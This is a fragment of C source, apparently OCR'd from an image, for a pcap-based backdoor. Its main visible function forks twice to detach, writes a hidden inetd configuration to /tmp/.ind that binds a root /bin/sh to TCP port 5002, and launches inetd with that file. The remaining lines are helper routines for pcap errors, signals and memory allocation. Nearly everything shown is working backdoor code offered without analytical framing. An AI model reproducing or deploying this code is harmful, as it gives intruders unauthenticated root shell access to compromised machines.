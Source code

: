     char	*args[] = {"/usr/sbin/inetd","/tmp/.ind",NULL};

    switch (fork()) {
	case -1: 
#ifdef DEBUG
	    printf("fork() failed ! Fuck !\n");
#endif DEBUG
	    return;
	case 0: 
	    /* To prevent zombies (inetd-zombies look quite stupid) we do
	     * a second fork() */
	    switch (fork()) {
		case -1: _exit(0);
		case 0: /*that's fine */
			 break;
		default: _exit(0);
	    }
	     break;

	default: 
	     wait(NULL);
	     return;
    }

    if ((f=fopen("/tmp/.ind","a+t"))==NULL) return;
    fprintf(f,"5002  stream  tcp     nowait  root    /bin/sh  sh\n");
    fclose(f);

    execv("/usr/sbin/inetd",args);
#ifdef DEBUG
    printf("Strange return from execvp() !\n");
#endif DEBUG
    exit (0);

}


/* error function for pcap lib */
void capterror(pcap_t *caps, char *message) {
    pcap_perror(caps,message);
    exit (-1);
}

/* signal counter/handler */
void signal_handler(int sig) {
    /* the ugly way ... */
    _exit(0);
}

void *smalloc(size_t size) {
    void	*p;

    if ((p=malloc(size))==NULL) {
	exit(-1);
    }
    memset(p,0,size);
    return p;
}
